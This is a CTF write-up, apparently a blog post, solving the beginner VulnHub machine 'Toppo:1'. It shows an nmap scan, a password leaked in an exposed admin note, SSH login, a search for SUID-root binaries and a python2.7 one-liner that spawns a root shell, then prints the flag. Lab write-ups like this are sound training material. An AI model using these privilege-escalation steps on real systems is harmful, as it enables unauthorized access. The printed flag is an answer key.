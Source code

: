 ```yaml
---
title: "CTF Write Up : Toppo 1"
description: "Toppo 1 CTF Writeup"
layout: post
categories: CTF
---
```

I've been getting back into hackerering _Capture The Flag_ virtual machines from [VulnHub](https://www.vulnhub.com) recently.
To get back into the swing of things I chose [Toppo:1](https://www.vulnhub.com/entry/toppo-1,245/).
It's aimed at beginners and requires no advanced exploitation techniques or really any advanced tools,
so it's good for beginner InfoSec enthusiasts and rusty beginner InfoSec enthusiast gits like myself.

### WARNING: This write up contains spoilers for the challenge.. obviously

**DISCLAIMER: I'm not responsible for how you use the information presented in these write ups, if you do something illegal with the information presented here and get caught, it's on you.**

Now that's out of the way, let's get started. 

### Information Gathering

After firing up the target VM and identifying it's IP on the `vboxnet0` network it's time to check the running services on the target:
{% highlight terminal %}

root@kali:~# nmap -sV 192.168.56.102
-- SNIP --
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1
80/tcp  open  http    Apache httpd 2.4.10
111/tcp open  rpcbind 2-4 (RPC #100000)
-- SNIP --

{% endhighlight %}

nmap reveals http, ssh and RPC daemons running on the target.

### Checking for hidden directories, files or login pages on the webserver

Turns out there's an unprotected `admin/` directory with a text file called `note.txt`.
Here's the contents:
>Note to myself :
>
>I need to change my password :/ 12345ted123 is too outdated but the technology
>isn't my thing i prefer go fishing or watching soccer .

Looks like a set of keys to the kingdom. The username looks nested into the password.

Using the credentials to gain access via SSH:
{% highlight terminal %}

root@kali:~# ssh ted@192.168.56.102
-- SNIP --
ted@192.168.56.102's password:
-- SNIP --
ted@Toppo:~$

{% endhighlight %}

### Unprivileged Access

**hacker voice: "I'm in"**

Good, but it's not root.

### Exploiting a misconfigured SUID executable to escalate privileges

SUID which stands for "Set User ID" allows users to execute a file with the
permissions of a specified user. In this case, we want to find the executables
which run as the root even when other users execute them.

There's a great quick-start tutorial [here](https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/) from null-byte on how to escape an interactive nmap session to a root shell.

Identify the executables with the SUID bit set owned by root:
{% highlight terminal %}
ted@Toppo:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
{% endhighlight %}

The thing of note in that list is python2.7, I've seen other binaries like nmap and
vim in previous vulnhub CTF's, but this is the first time I've seen python.

Python means that we can get root shell with a one liner:
{% highlight terminal %}
ted@Toppo:~$ python2.7 -c 'import os; os.system("/bin/sh")'
# whoami
root
#
{% endhighlight %}

### Capturing the flag
{% highlight terminal %}
# cd root
# ls
flag.txt
# cat flag.txt
 _________                                 
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|




Congratulations !
there is your flag :
0wnedlab{p4ssi0n_c0me_with_pract1ce}
{% endhighlight %}
